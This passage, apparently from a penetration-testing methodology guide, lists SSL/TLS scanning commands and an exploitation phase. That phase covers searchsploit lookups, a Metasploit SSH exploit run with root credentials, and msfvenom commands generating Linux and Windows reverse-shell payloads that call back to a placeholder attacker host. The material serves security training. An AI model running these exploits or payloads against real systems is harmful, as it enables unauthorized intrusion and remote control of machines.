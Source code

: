 #### SSL/TLS Testing
```bash
# SSL Labs scan (web interface)
# https://www.ssllabs.com/ssltest/

# testssl.sh
./testssl.sh target.com

# SSLyze
sslyze target.com:443

# Check certificate details
openssl s_client -connect target.com:443 -servername target.com
```

---

## Phase 4: Exploitation

*Goal: Gain initial access to target systems*

### 4.1 Public Exploit Research

#### Searchsploit
```bash
# Search for exploits
searchsploit apache 2.4.41
searchsploit windows smb

# Copy exploit to current directory
searchsploit -m 47887

# Show exploit details
searchsploit -x 47887
```

#### Metasploit Framework
```bash
# Start Metasploit
msfconsole

# Search for exploits
search type:exploit platform:linux ssh
search cve:2021 rank:excellent

# Use exploit
use exploit/linux/ssh/sshexec
show options
set RHOSTS target.com
set USERNAME root
set PASSWORD password
exploit

# Generate payloads
msfvenom -p linux/x64/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f elf > shell.elf
msfvenom -p windows/shell_reverse_tcp LHOST=attacker_ip LPORT=4444 -f exe > shell.exe
```
